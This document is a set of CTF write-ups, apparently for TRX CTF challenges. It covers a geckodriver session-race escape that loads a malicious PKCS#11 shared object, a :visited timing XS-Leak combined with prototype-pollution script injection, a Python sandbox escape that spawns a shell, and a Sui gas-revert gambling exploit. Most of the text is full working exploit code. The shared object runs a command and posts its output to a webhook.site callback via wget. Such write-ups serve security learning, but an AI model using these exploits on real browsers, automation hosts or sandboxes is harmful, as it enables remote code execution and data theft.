    opts = Options()
    opts.binary_location = "/usr/bin/firefox"
    opts.add_argument("-headless")
    opts.set_preference("javascript.options.wasm", False)
    opts.set_preference("javascript.options.baselinejit", False)
    opts.set_preference("javascript.options.ion", False)
    opts.set_preference("javascript.options.asmjs", False)

    service = Service(executable_path="/usr/bin/geckodriver")
    driver = webdriver.Firefox(options=opts, service=service)
    try:
        addon_id = driver.install_addon(ext_path, temporary=True)
        time.sleep(60)
        for p in Path("/tmp/").glob("*.xpi"):
            p.unlink(missing_ok=True)
        driver.uninstall_addon(addon_id)
    except Exception:
        pass
    finally:
        driver.quit()

@app.post("/visit")
async def visit(extension: UploadFile = File(...)):
    if not extension.filename:
        raise HTTPException(status_code=400, detail="No extension uploaded")

    with tempfile.TemporaryDirectory(prefix="bot_", dir="/tmp") as td:
        ext_path = Path(td) / "extension.xpi"
        await save_upload(extension, ext_path)
        await asyncio.to_thread(run_webdriver, str(ext_path))

    return {"status": "success"}
```

The service installs an attacker-controlled Firefox extension and lets it run for 60 seconds.

The flag reader is implemented as follows:

```C
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  if (argc != 2 || strcmp(argv[1], "pls") != 0) {
    write(1, "ask politely :(\n", 16);
    return 1;
  }

  int fd = open("/flag.txt", O_RDONLY);
  if (fd < 0) return 1;

  char buf[128];
  ssize_t n = read(fd, buf, sizeof(buf));
  if (n > 0) write(1, buf, (size_t)n);

  close(fd);
  return 0;
}
```

Once command execution is obtained inside the container, `/readflag pls` can be used to read the flag.

### **Vulnerability**

When Selenium starts Firefox, it also starts a local geckodriver service on a random port. The process arguments look like this:

```Plain
/usr/bin/geckodriver --port 60599 --websocket-port 44527
```

The uploaded Firefox extension runs in the same container network namespace, so it can access local geckodriver ports.

The geckodriver status endpoint can be used to identify the service:

```HTTP
GET /status
```

While the original Selenium session is still active, geckodriver returns a response similar to:

```JSON
{"value":{"message":"Session already started","ready":false}}
```

After the original session exits, geckodriver briefly becomes ready for a new session:

```JSON
{"value":{"message":"","ready":true}}
```

If the extension sends a `POST /session` request during this window, it can create a new attacker-controlled Firefox session.

### **Origin Header Bypass**

Direct `POST /session` requests from a Firefox extension include an `Origin: moz-extension://...` header. geckodriver rejects these requests with:

```Plain
Invalid Origin header moz-extension://...
```

Firefox extensions can use `webRequestBlocking` to modify outgoing request headers. By intercepting requests to local addresses and removing the `Origin` header, geckodriver accepts the request.

The key extension code is:

```JavaScript
browser.webRequest.onBeforeSendHeaders.addListener(
  (details) => ({
    requestHeaders: details.requestHeaders.filter(
      (h) => h.name.toLowerCase() !== "origin"
    ),
  }),
  { urls: ["http://127.0.0.1/*", "http://localhost/*"] },
  ["blocking", "requestHeaders"]
);
```

The extension needs these permissions:

```JSON
{
  "manifest_version": 2,
  "name": "geckodrce",
  "version": "1.0",
  "permissions": [
    "<all_urls>",
    "downloads",
    "webRequest",
    "webRequestBlocking"
  ],
  "background": {
    "scripts": ["background.js"]
  }
}
```

### **Command Execution**

A new geckodriver session can specify Firefox startup arguments and a custom browser profile:

```JSON
{
  "capabilities": {
    "alwaysMatch": {
      "browserName": "firefox",
      "moz:firefoxOptions": {
        "binary": "/usr/bin/firefox",
        "args": ["-headless"],
        "profile": "<base64-encoded-profile>"
      }
    }
  }
}
```

Firefox reads `pkcs11.txt` from its profile during startup. This file can register an additional PKCS#11 module:

```Plain
library=/home/bot/Downloads/pwn.so
name=geckodrce
parameters=
NSS=trustOrder=50 cipherOrder=100
```

Firefox loads the referenced shared object through NSS. The exploit flow is:

1. The extension downloads a malicious shared object into Firefox's default download directory.
2. The exploit builds a Firefox profile containing a malicious `pkcs11.txt`.
3. The extension races geckodriver and creates a new session after the original Selenium session exits.
4. Geckodriver starts a new Firefox process with the attacker-controlled profile.
5. Firefox loads the malicious shared object.
6. The shared object constructor executes `/readflag pls` and sends the output to the callback URL.

The malicious shared object source is:

```C
#include <stdlib.h>

__attribute__((constructor)) static void init(void) {
  if (getenv("GECKODRCE_DONE")) return;
  setenv("GECKODRCE_DONE", "1", 1);

  system("/bin/sh -c '/readflag pls > /tmp/geckodrce_flag 2>/tmp/geckodrce_err; "
         "wget -q -O- --post-file=/tmp/geckodrce_flag "
         "\"https://webhook.site/<token>\" >/dev/null 2>&1'");
}
```

The extension drops the shared object with the downloads API:

```JavaScript
async function dropSharedObject() {
  const id = await browser.downloads.download({
    url: browser.runtime.getURL("pwn.so"),
    filename: "pwn.so",
    conflictAction: "overwrite",
    saveAs: false,
  });

  for (let i = 0; i < 200; i++) {
    const items = await browser.downloads.search({ id });
    if (items[0] && items[0].state === "complete") return;
    await new Promise((resolve) => setTimeout(resolve, 50));
  }

  throw new Error("download timeout");
}
```

### **Port Scan and Session Race**

The geckodriver port is random, so the extension scans localhost ports:

```JavaScript
async function scanPort(port) {
  try {
    const r = await fetch(`http://127.0.0.1:${port}/status`, {
      cache: "no-store",
    });
    const t = await r.text();

    if (t.includes("Session already started") || t.includes('"ready"')) {
      candidates.add(port);
      watchPort(port);
    }
  } catch (e) {}
}
```

After finding a geckodriver port, the extension continuously attempts to create a new session:

```JavaScript
const payload = JSON.stringify({
  capabilities: {
    alwaysMatch: {
      browserName: "firefox",
      "moz:firefoxOptions": {
        binary: "/usr/bin/firefox",
        args: ["-headless"],
        profile: PROFILE_B64,
      },
    },
  },
});

function postSession(port) {
  fetch(`http://127.0.0.1:${port}/session`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: payload,
  }).catch(() => {});
}

async function watchPort(port) {
  while (true) {
    postSession(port);
    await new Promise((resolve) => setTimeout(resolve, 20));
  }
}
```

The original Selenium session keeps geckodriver busy for about 60 seconds. To improve reliability, the exploit splits the port range into four shards and uploads two waves of extensions. The second wave is already scanning when the first wave begins to release its sessions, which makes the race reliable.

### **Exploit**

```Python
#!/usr/bin/env python3
import argparse
import base64
import concurrent.futures
import json
import shutil
import subprocess
import sys
import tempfile
import textwrap
import time
import zipfile
from pathlib import Path

import requests


RANGES = [
    (30000, 38750),
    (38751, 47500),
    (47501, 56250),
    (56251, 65000),
]


def write_text(path, data):
    path.parent.mkdir(parents=True, exist_ok=True)
    path.write_text(data, encoding="utf-8")


def make_zip(src, dst):
    with zipfile.ZipFile(dst, "w", zipfile.ZIP_DEFLATED) as zf:
        for p in sorted(src.rglob("*")):
            if p.is_file():
                zf.write(p, p.relative_to(src).as_posix())


def normalize_target(url):
    url = url.rstrip("/")
    if url.endswith("/visit"):
        return url
    return url + "/visit"


def build_so(work, callback):
    work.mkdir(parents=True, exist_ok=True)
    safe_callback = callback.replace("\\", "\\\\").replace('"', '\\"')
    c_code = f'''
#include <stdlib.h>

__attribute__((constructor)) static void init(void) {{
  if (getenv("GECKODRCE_DONE")) return;
  setenv("GECKODRCE_DONE", "1", 1);
  system("/bin/sh -c '/readflag pls > /tmp/geckodrce_flag 2>/tmp/geckodrce_err; "
         "wget -q -O- --post-file=/tmp/geckodrce_flag \\"{safe_callback}\\" >/dev/null 2>&1'");
}}
'''
    write_text(work / "pwn.c", c_code)

    mount = f"{work.resolve().as_posix()}:/work"
    subprocess.check_call([
        "docker", "run", "--rm",
        "-v", mount,
        "alpine:3.23",
        "sh", "-c",
        "sed -i 's#https://dl-cdn.alpinelinux.org#https://mirrors.aliyun.com#g' /etc/apk/repositories && "
        "apk add --no-cache build-base >/dev/null && "
        "gcc -shared -fPIC /work/pwn.c -o /work/pwn.so"
    ])
    return work / "pwn.so"


def build_xpi(root, callback, pwn_so, port_min, port_max):
    work = root / f"{port_min}_{port_max}"
    ext = work / "ext"
    profile = work / "profile"
    ext.mkdir(parents=True)
    profile.mkdir(parents=True)

    pkcs11 = """library=
name=NSS Internal PKCS #11 Module
parameters=configdir='sql:/tmp/pwnprofile' certPrefix='' keyPrefix='' secmod='secmod.db' flags=optimizeSpace updatedir='' updateCertPrefix='' updateKeyPrefix='' updateid='' updateTokenDescription=''
NSS=Flags=internal,critical trustOrder=75 cipherOrder=100 slotParams=(1={slotFlags=[ECC,RSA,DSA,DH,RC2,RC4,DES,RANDOM,SHA1,MD5,MD2,SSL,TLS,AES,Camellia,SEED,SHA256,SHA512] askpw=any timeout=30})

library=/home/bot/Downloads/pwn.so
name=geckodrce
parameters=
NSS=trustOrder=50 cipherOrder=100
"""
    write_text(profile / "pkcs11.txt", pkcs11)
    make_zip(profile, work / "profile.zip")
    profile_b64 = base64.b64encode((work / "profile.zip").read_bytes()).decode()

    manifest = {
        "manifest_version": 2,
        "name": "geckodrce",
        "version": "1.0",
        "permissions": [
            "<all_urls>",
            "downloads",
            "webRequest",
            "webRequestBlocking",
        ],
        "background": {
            "scripts": ["background.js"]
        }
    }
    write_text(ext / "manifest.json", json.dumps(manifest, indent=2))
    shutil.copy2(pwn_so, ext / "pwn.so")

    background = f"""
const CALLBACK = {json.dumps(callback)};
const PROFILE_B64 = {json.dumps(profile_b64)};
const PORT_MIN = {port_min};
const PORT_MAX = {port_max};
const candidates = new Set();

browser.webRequest.onBeforeSendHeaders.addListener(
  (details) => ({{
    requestHeaders: details.requestHeaders.filter(
      (h) => h.name.toLowerCase() !== "origin"
    ),
  }}),
  {{ urls: ["http://127.0.0.1/*", "http://localhost/*"] }},
  ["blocking", "requestHeaders"]
);

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

async function report(msg) {{
  try {{
    await fetch(CALLBACK + "?" + new URLSearchParams({{ log: msg }}));
  }} catch (e) {{}}
}}

async function dropSharedObject() {{
  const id = await browser.downloads.download({{
    url: browser.runtime.getURL("pwn.so"),
    filename: "pwn.so",
    conflictAction: "overwrite",
    saveAs: false,
  }});

  for (let i = 0; i < 200; i++) {{
    const items = await browser.downloads.search({{ id }});
    if (items[0] && items[0].state === "complete") return;
    await sleep(50);
  }}
}}

const payload = JSON.stringify({{
  capabilities: {{
    alwaysMatch: {{
      browserName: "firefox",
      "moz:firefoxOptions": {{
        binary: "/usr/bin/firefox",
        args: ["-headless"],
        profile: PROFILE_B64,
      }},
    }},
  }},
}});

async function scanPort(port) {{
  try {{
    const r = await fetch(`http://127.0.0.1:${{port}}/status`, {{ cache: "no-store" }});
    const t = await r.text();
    if (t.includes("Session already started") || t.includes('"ready"')) {{
      if (!candidates.has(port)) {{
        candidates.add(port);
        report("found " + port);
        watchPort(port);
      }}
    }}
  }} catch (e) {{}}
}}

function postSession(port) {{
  fetch(`http://127.0.0.1:${{port}}/session`, {{
    method: "POST",
    headers: {{ "Content-Type": "application/json" }},
    body: payload,
  }}).then((r) => {{
    if (r.ok) report("new session " + port);
  }}).catch(() => {{}});
}}

async function watchPort(port) {{
  while (true) {{
    postSession(port);
    await sleep(20);
  }}
}}

async function scanRange() {{
  while (true) {{
    let tasks = [];
    for (let port = PORT_MIN; port <= PORT_MAX; port++) {{
      tasks.push(scanPort(port));
      if (tasks.length >= 256) {{
        await Promise.allSettled(tasks);
        tasks = [];
        await sleep(1);
      }}
    }}
    if (tasks.length) await Promise.allSettled(tasks);
  }}
}}

async function main() {{
  await report("loaded");
  await dropSharedObject();
  await report("pwn.so ready");
  await scanRange();
}}

main().catch((e) => report("fatal " + e));
"""
    write_text(ext / "background.js", background)

    xpi = work / "payload.xpi"
    make_zip(ext, xpi)
    return xpi


def upload(target, xpi, wave, shard):
    with open(xpi, "rb") as f:
        r = requests.post(
            target,
            files={"extension": ("payload.xpi", f, "application/x-xpinstall")},
            timeout=90,
        )

    body = r.text.replace("\n", " ")[:160]
    return f"wave {wave} shard {shard}: HTTP {r.status_code} {body}"


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("target", help="target root URL or /visit URL")
    parser.add_argument("callback", help="HTTPS callback URL for receiving the flag")
    parser.add_argument("--delay", type=float, default=20.0, help="delay between the two upload waves")
    args = parser.parse_args()

    target = normalize_target(args.target)

    with tempfile.TemporaryDirectory() as td:
        root = Path(td)
        pwn_so = build_so(root / "build", args.callback)
        xpis = [build_xpi(root, args.callback, pwn_so, a, b) for a, b in RANGES]

        futures = []
        with concurrent.futures.ThreadPoolExecutor(max_workers=len(xpis) * 2) as pool:
            for i, xpi in enumerate(xpis, 1):
                futures.append(pool.submit(upload, target, xpi, 1, i))

            time.sleep(args.delay)

            for i, xpi in enumerate(xpis, 1):
                futures.append(pool.submit(upload, target, xpi, 2, i))

            for fut in concurrent.futures.as_completed(futures):
                try:
                    print(fut.result(), flush=True)
                except Exception as e:
                    print(f"upload error: {e}", file=sys.stderr, flush=True)


if __name__ == "__main__":
    main()
```



## web/are xsleaks dead?

The goal is to leak the flag that the bot writes to the Notes application. Core source code:

```Python
@app.get("/")
async def index(request: Request, q: str = Query(default="")):
    session_id, is_new, notes = get_session_notes(request)
    query = q.strip().lower()
    filtered_notes = [
        note for note in notes if query in str(note["content"]).lower()
    ] if query else notes

    response = TemplateResponse(..., status_code=200 if filtered_notes else 404)
    response.set_cookie("sid", session_id, httponly=True, samesite="lax")
```

bot behavior:

```Python
driver.get(BASE_URL)          # remote 上是内部 http://web:8000/
# 写入 FLAG
driver.switch_to.new_window("tab")
driver.close()                # 关闭 notes tab
driver.get(report_url)        # 访问攻击页
time.sleep(300)
```

Searching for "oracle" is straightforward: `/?q=<prefix>` returns a 200 if the flag is hit, otherwise a 404. The problem is that the cookie is ``SameSite=Lax``, and cross-site requests for```<object>``` or ``<iframe>`` sub-resources won't include the bot's SID, so traditional XS-Leak oracle attacks fail.

The key idea is that ``SameSite=Lax`` still allows top-level navigation to carry cookies.

Therefore, a window can be opened from the attack page and navigated to the top level:

```Python
w.location = 'http://web:8000/?q=' + encodeURIComponent(candidate)
```

If candidate is a flag prefix, return 200; otherwise, return `404.`

Chrome only writes successful 200 OK top-level navigations to history, while 404s do not. Therefore, the` :visited `history side-channel can be used to determine whether the URL just visited is a 200.

Modern Chrome has many protections for` :visited` and cannot directly read the color:

```Python
getComputedStyle(a).color
```

It always returns the unvisited style. However, the rendering pipeline still performs real drawing for visited links. You can construct a large number of `<a>` elements, set expensive :visited styles, and then measure the redraw time via `requestAnimationFrame`.

Core CSS:

```YAML
.probe {
  transform: perspective(100px) rotateY(37deg);
  filter: contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%);
  text-shadow: 16px 16px 10px #fefffe;
  outline: 24px solid white;
  color: white;
  background-color: white;
}

.probe:visited {
  color: #feffff;
  background-color: #fffeff;
  outline-color: #fffffe;
}
```

Unvisited links measure approximately a few dozen milliseconds, while visited links can range from a few hundred to over a thousand milliseconds, and the signal is stable enough.

Attack hosting

I used another problem, `Short Notes`, as the attack page and exfil service. Its `query` parser has `prototype pollution:`

```Python
GET /notes?__proto__[content-type]=text/html
```

JSON notes can be returned as HTML, thereby executing the `<script>` in the note content.

```Python
fetch('/notes?__proto__%5Bsuffix%5D=' + encodeURIComponent(data))
```

Append the leak progress to the end of the ``/notes`` response, and poll ``/notes`` externally to read the results.

Exploit Process

1. The bot first writes a flag note internally at `http://web:8000/`.
2. The bot visits the Short Notes attack page.
3. The attack page initializes visited timing calibration.

For each candidate character:

1. Open a child window.
2. The child window navigates to `http://web:8000/?q=<prefix+ch>` at the top level.
3. If a 200 response is returned, the URL is added to the history.
4. The main window uses numerous links + `:visited` to redraw the timing to determine if the URL has been visited.
5. If the timing is slow, the character is correct; save the prefix and exfiltrate it.
6. Because the bot only has 300 seconds, if one round of leaking is not completed, start the next round from the already exfiltrated prefix.

```Python
#!/usr/bin/env python3
import argparse
import random
import re
import string
import time
import requests

def rnd(n=6):
    return "".join(random.choice(string.ascii_lowercase + string.digits) for _ in range(n))

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--short", required=True, help="http://<hash>.short-notes.ctf.theromanxpl0.it")
    ap.add_argument("--bot", required=True, help="http://bot-<hash>.are-xsleaks-dead.ctf.theromanxpl0.it")
    ap.add_argument("--prefix", default="TRX{")
    args = ap.parse_args()

    short = args.short.rstrip("/")
    bot = args.bot.rstrip("/")
    key = "k" + rnd()
    title = "x" + rnd(5)

    js = f"""function nav(u){{location=u}}const B='http://web:8000/';const A='abcdefghijklmnopqrstuvwxyz0123456789_';const K='{key}';const P0='{args.prefix}';const N=300;const C=3;const CU=location.href.split('#')[0]+'#child';var st,links;if(location.hash!='#child'){{document.body.innerHTML='<div id=box></div>';let S=document.createElement('style');S.textContent='body{{background:white;margin:0}}#box{{width:780px;height:440px;overflow:hidden}}.probe{{transform:perspective(100px) rotateY(37deg);filter:contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%);text-shadow:16px 16px 10px #fefffe;outline:24px solid white;font-size:2px;text-align:center;display:inline-block;color:white;background-color:white;outline-color:white;width:2px;height:2px;margin:0;padding:0}}.probe:visited{{color:#feffff;background-color:#fffeff;outline-color:#fffffe}}';document.head.appendChild(S);st=JSON.parse(localStorage[K]||'{{}}');if(!st.p)st={{p:P0,i:0,t:0,cal:0}};const TEXT='一丁丂七丄丅丆万'.repeat(4);for(let i=0;i<N;i++){{let a=document.createElement('a');a.className='probe';a.textContent=TEXT;a.href='http://dummy.invalid/'+Math.random();box.appendChild(a)}}links=[...document.querySelectorAll('a.probe')];setTimeout(mainf,100)}}function delay(ms){{return new Promise(r=>setTimeout(r,ms))}}function nf(){{return new Promise(r=>requestAnimationFrame(()=>r()))}}function send(x){{fetch('/notes?__proto__%5Bsuffix%5D='+encodeURIComponent(x)).catch(e=>{{}})}}async function waitchild(w){{for(let i=0;i<100;i++){{try{{if(w.nav)return}}catch(e){{}}await delay(10)}}throw Error('nochild')}}async function visit(u){{let w=open(CU,'c'+Math.random());await waitchild(w);w.nav(u);for(let i=0;i<150;i++){{try{{void w.document.body}}catch(e){{break}}await delay(3)}}try{{w.close()}}catch(e){{}}await delay(20)}}async function settle(h){{for(const a of links)a.href=h;await nf();await nf();await delay(15);await nf()}}async function measure(u){{const d1='http://dummy.invalid/'+Math.random(),d2='http://dummy.invalid/'+Math.random();await settle(d1);let t0=performance.now();for(let i=0;i<C;i++){{let h=(i&1)?d2:u;for(const a of links)a.href=h;await nf()}}let dt=performance.now()-t0;await settle(d1);return dt}}async function score(u){{let d=await measure(u);if(d>st.t){{let e=await measure(u);return Math.min(d,e)}}return d}}async function score3(u){{let a=[];for(let i=0;i<3;i++)a.push(await measure(u));return Math.min(...a)}}function url(q){{return B+'?q='+encodeURIComponent(q)+'&r='+Math.random()}}async function mainf(){{try{{if(!st.cal){{let h=url('TRX{{'),m=url('zzzz_cal_'+Math.random());await visit(h);await visit(m);let md=await score3(m);let hd=await score3(h);st.t=(md+hd)/2;st.cal=1;localStorage[K]=JSON.stringify(st);send('cal:'+Math.round(md)+','+Math.round(hd)+',p:'+st.p);await delay(800);location.reload();return}}send('start:'+st.p+':i'+st.i+':t'+Math.round(st.t));while(st.p.length<34){{for(;st.i<A.length;st.i++){{let ch=A[st.i],u=url(st.p+ch);await visit(u);let d=await score(u);if(d>st.t){{st.p+=ch;st.i=0;localStorage[K]=JSON.stringify(st);send('pref:'+st.p);await delay(900);location.reload();return}}}}send('fail:'+st.p);return}}send('flag:'+st.p+'}}')}}catch(e){{send('err:'+e.stack)}}}}"""

    payload = "<script>" + js + "</script>"
    assert '"' not in payload and "\n" not in payload

    r = requests.post(short + "/notes", json={"title": title, "content": payload}, timeout=15)
    print("[+] posted", r.status_code, "len", len(payload))

    attack_url = short + "/notes?__proto__%5Bcontent-type%5D=text/html"
    r = requests.post(bot + "/report", json={"url": attack_url}, timeout=15)
    print("[+] reported", r.status_code, r.text)

    best = args.prefix
    seen = ""
    for i in range(285):
        txt = requests.get(short + "/notes", timeout=8).text
        suf = txt.split("]")[-1] if txt.startswith("[") else ""
        if suf and suf != seen:
            seen = suf
            print("[*]", i, suf[:200])
            for m in re.findall(r"(?:pref|start):(TRX\{[a-z0-9_]*)", suf):
                if len(m) > len(best):
                    best = m
            m = re.search(r"flag:(TRX\{[a-z0-9_]{30}\})", suf)
            if m:
                print("[+] FLAG", m.group(1))
                return
        time.sleep(1)

    print("[!] BEST", best)

if __name__ == "__main__":
    main()
```

## misc/babel

### **Analysis**

Although the sandbox only exposes `__build_class__`, this object is a builtin function bound to the real `builtins` module.

The real `builtins` module can be reached through:

```Python
__build_class__.__self__
```

After that, the exploit needs to solve two restrictions:

1. There is no direct call syntax.
2. There are no string literals.

Python special methods give us an automatic call primitive. We create a class `b`, then overwrite `b.__getattribute__` with `builtins.__loader__.load_module`.

When an attribute is accessed:

```Python
x.os
```

Python automatically calls:

```Python
load_module("os")
```

This gives access to the `os` module.

Then `b.__getattribute__` is overwritten again with `os.system`. After that, accessing:

```Python
x.sh
```

automatically calls:

```Python
os.system("sh")
```

The attribute name `sh` becomes the command string passed into `__getattribute__`, so the payload can execute `sh` without writing any string literal.

Once the shell is spawned, the exploit invokes the flag reader with the required password and prints the flag.

### **Exploit**

```Python
#!/usr/bin/env python3
import socket
import ssl
import time


PAYLOAD = """global __builtins__,__name__
for __builtins__ in __build_class__.__self__,:
    for __name__ in __builtins__,:
        class a:
            class b:
                global c
            for b.__init__ in __builtins__.__dict__.__setitem__,:
                global c
            for b.__getattribute__ in __builtins__.__loader__.load_module,:
                global c
            for __builtins__.__build_class__ in b,:
                class x:
                    global c
            for b.__getattribute__ in x.os.system,:
                global c
            x.sh"""


def recv_all(sock, timeout=1.0):
    sock.settimeout(timeout)
    data = b""
    while True:
        try:
            chunk = sock.recv(4096)
        except TimeoutError:
            break
        if not chunk:
            break
        data += chunk
    return data


def main():
    host = "902a590531c6.babel.ctf.theromanxpl0.it"
    port = 443

    raw = socket.create_connection((host, port), timeout=5)
    context = ssl._create_unverified_context()
    sock = context.wrap_socket(raw, server_hostname=host)

    with sock:
        sock.recv(1024)

        sock.sendall(PAYLOAD.replace("\n", "\r").encode() + b"\n")
        time.sleep(0.2)

        sock.sendall(
            b'/readflag "could you please g!ve me the flag thank you so much!!!"\n'
        )
        time.sleep(0.2)

        sock.sendall(b"exit\n")
        print(recv_all(sock).decode(errors="replace"), end="")


if __name__ == "__main__":
    main()
```


## misc/trx-gambling-house

This is a Sui Move blockchain challenge. The player starts with only 150 SUI, while the launcher gives the flag only when the player balance reaches 2000 SUI.

The useful game is `setteemezzo`. It costs 50 SUI per round. A win pays 100 or 150 SUI, while a loss returns 0.

I first tried to predict `sui::random::Random`, but the remote randomness round updates too quickly. By the time I fetched the current random state and submitted a transaction, the transaction was executed in a later round, so direct prediction was unreliable.

The actual exploit is based on Sui gas behavior. If a transaction runs out of gas, its state changes are reverted, but only a small amount of gas is charged. Therefore, the 50 SUI ticket is not actually lost on OOG.

After testing with dry-run, the best parameters were:

setteemezzo(hit_until = 15)

gas_budget = 5352976

With this budget, most losing paths run out of gas and revert, costing only about 0.001 SUI. Some winning paths still succeed and pay 100 or 150 SUI. A few losing paths can still pass, but overall the strategy is positive expected value.

The exploit repeatedly sends low-gas setteemezzo transactions. After the balance increases, I split the SUI coins into multiple lanes and send transactions in parallel to speed up the process. Once the balance exceeds 2000 SUI, I call get flag from the launcher.

```Python
#!/usr/bin/env python3
import argparse
import base64
import copy
import hashlib
import hmac
import json
import socket
import ssl
import time
import warnings
from dataclasses import dataclass
from typing import Any

import requests
from pysui import SuiAddress, SuiConfig, SyncClient
from pysui.abstracts import SignatureScheme
from pysui.sui.sui_builders.base_builder import SuiRequestType
from pysui.sui.sui_builders.exec_builders import ExecuteTransaction
from pysui.sui.sui_constants import ED25519_DEFAULT_KEYPATH
from pysui.sui.sui_types.scalars import ObjectID


MIST_PER_SUI = 1_000_000_000
TICKET_PRICE = 50 * MIST_PER_SUI
TARGET_BALANCE = 2_000 * MIST_PER_SUI
PICKS = [1, 2, 3, 4, 5, 6]
RANDOM_OBJECT_ID = "0x8"
SETTE_GAS_BUDGET = 8_182_000
SETTE_HIT_UNTIL = 15

warnings.filterwarnings("ignore", category=DeprecationWarning)


@dataclass
class Instance:
    rpc_url: str
    player_address: str
    player_mnemonic: str
    package_id: str
    house_object_id: str


def normalize_hex_id(value: str) -> str:
    value = value[2:] if value.startswith("0x") else value
    return "0x" + value.rjust(64, "0")


def rpc_call(rpc_url: str, method: str, params: list[Any]) -> Any:
    response = requests.post(
        rpc_url,
        json={"jsonrpc": "2.0", "id": 1, "method": method, "params": params},
        timeout=20,
    )
    response.raise_for_status()
    payload = response.json()
    if "error" in payload:
        raise RuntimeError(f"{method} failed: {payload['error']}")
    return payload["result"]


def recv_all(sock: socket.socket) -> bytes:
    chunks = []
    while True:
        chunk = sock.recv(4096)
        if not chunk:
            return b"".join(chunks)
        chunks.append(chunk)


def launcher_action(host: str, port: int, choice: int, use_ssl: bool = False) -> dict[str, Any]:
    with socket.create_connection((host, port), timeout=30) as raw:
        if use_ssl:
            ctx = ssl._create_unverified_context()
            sock = ctx.wrap_socket(raw, server_hostname=host)
        else:
            sock = raw
        with sock:
            sock.settimeout(180)
            buf = b""
            while not buf.endswith(b"> "):
                part = sock.recv(4096)
                if not part:
                    break
                buf += part
            sock.sendall(f"{choice}\n".encode())
            out = recv_all(sock).decode("utf-8", "replace")

    start = out.find("{")
    if start == -1:
        raise RuntimeError(f"launcher returned no JSON: {out!r}")
    return json.loads(out[start:])


def derive_remote_hosts(challenge_hash: str) -> tuple[str, str]:
    suffix = ".trx-gambling-house.ctf.theromanxpl0.it"
    return f"rpc-{challenge_hash}{suffix}", f"launcher-{challenge_hash}{suffix}"


def get_instance(args: argparse.Namespace) -> Instance:
    if args.hash:
        rpc_host, launcher_host = derive_remote_hosts(args.hash)
        args.rpc = args.rpc or f"http://{rpc_host}"
        args.launcher_host = args.launcher_host or launcher_host
        if args.launcher_port is None:
            args.launcher_port = 443
        args.launcher_ssl = True

    if args.launcher_host:
        ports = [args.launcher_port] if args.launcher_port else [443, 1337, 80]
        last_exc = None
        info = None
        for port in ports:
            try:
                print(f"[*] talking to launcher {args.launcher_host}:{port}")
                info = launcher_action(args.launcher_host, port, args.launcher_choice, args.launcher_ssl or port == 443)
                args.launcher_port = port
                break
            except OSError as exc:
                last_exc = exc
        if info is None:
            raise RuntimeError(f"could not connect to launcher: {last_exc}")
        if not info.get("ok") and "instance" not in info:
            raise RuntimeError(f"launcher error: {info}")
        inst = info["instance"]
        artifacts = inst["artifacts"]
        return Instance(
            rpc_url=args.rpc or inst["rpc_url"],
            player_address=inst["player_address"],
            player_mnemonic=inst["player_mnemonic"],
            package_id=artifacts["package_id"],
            house_object_id=artifacts["house_object_id"],
        )

    if not all([args.rpc, args.player_address, args.player_mnemonic, args.package_id, args.house_object_id]):
        raise SystemExit("provide --hash, --launcher-host, or all manual instance fields")
    return Instance(
        rpc_url=args.rpc,
        player_address=args.player_address,
        player_mnemonic=args.player_mnemonic,
        package_id=args.package_id,
        house_object_id=args.house_object_id,
    )


def fetch_random_state(rpc_url: str) -> tuple[int, bytes]:
    random_obj = rpc_call(
        rpc_url,
        "sui_getObject",
        [normalize_hex_id(RANDOM_OBJECT_ID), {"showContent": True}],
    )["data"]
    inner_id = random_obj["content"]["fields"]["inner"]["fields"]["id"]["id"]
    fields = rpc_call(rpc_url, "suix_getDynamicFields", [inner_id, None, 10])["data"]
    if not fields:
        raise RuntimeError("Random.inner dynamic field not found")
    field_obj = rpc_call(
        rpc_url,
        "sui_getObject",
        [fields[0]["objectId"], {"showContent": True}],
    )["data"]
    value = field_obj["content"]["fields"]["value"]["fields"]
    return int(value["randomness_round"]), bytes(value["random_bytes"])


class SuiRandom:
    def __init__(self, random_bytes: bytes, fresh_address: bytes):
        self.seed = hmac.new(random_bytes, fresh_address, hashlib.sha3_256).digest()
        self.counter = 0
        self.buffer = bytearray()

    def next_block(self) -> bytes:
        self.counter += 1
        return hmac.new(self.seed, self.counter.to_bytes(2, "little"), hashlib.sha3_256).digest()

    def uint_from_bytes(self, nbytes: int) -> int:
        if len(self.buffer) < nbytes:
            self.buffer.extend(self.next_block())
        result = 0
        for _ in range(nbytes):
            result = (result << 8) + self.buffer.pop()
        return result

    def u16_in_range(self, lo: int, hi: int) -> int:
        return lo + self.uint_from_bytes(10) % (hi - lo + 1)


def derive_object_id(tx_digest: bytes, ids_created: int) -> bytes:
    h = hashlib.blake2b(digest_size=32)
    h.update(bytes([0xF1]))
    h.update(tx_digest)
    h.update(ids_created.to_bytes(8, "little"))
    return h.digest()


def transaction_digest(tx_data: Any) -> bytes:
    return hashlib.blake2b(
        b"TransactionData::" + tx_data.serialize(),
        digest_size=32,
    ).digest()


def predict_winning_numbers(random_bytes: bytes, tx_digest: bytes, ids_before_random: int) -> list[int]:
    fresh_address = derive_object_id(tx_digest, ids_before_random)
    rng = SuiRandom(random_bytes, fresh_address)
    nums = list(range(1, 91))
    end = len(nums) - 1
    for i in range(end):
        j = rng.u16_in_range(i, end)
        nums[i], nums[j] = nums[j], nums[i]
    return nums[:6]


def build_client(instance: Instance) -> SyncClient:
    cfg = SuiConfig.user_config(rpc_url=instance.rpc_url)
    _, recovered = cfg.recover_keypair_and_address(
        SignatureScheme.ED25519,
        instance.player_mnemonic,
        ED25519_DEFAULT_KEYPATH,
        make_active=True,
    )
    if str(recovered) != instance.player_address:
        raise RuntimeError(f"mnemonic recovered {recovered}, expected {instance.player_address}")
    return SyncClient(cfg)


def get_balance(client: SyncClient, address: str) -> int:
    result = client.get_gas(SuiAddress(address), fetch_all=True)
    if result.is_err():
        raise RuntimeError(result.result_string)
    return sum(int(coin.balance) for coin in result.result_data.data)


def pick_gas_coin(client: SyncClient, address: str, min_balance: int) -> str:
    result = client.get_gas(SuiAddress(address), fetch_all=True)
    if result.is_err():
        raise RuntimeError(result.result_string)
    coins = sorted(result.result_data.data, key=lambda coin: int(coin.balance), reverse=True)
    for coin in coins:
        if int(coin.balance) >= min_balance:
            return coin.object_id
    raise RuntimeError("no gas coin with enough balance")


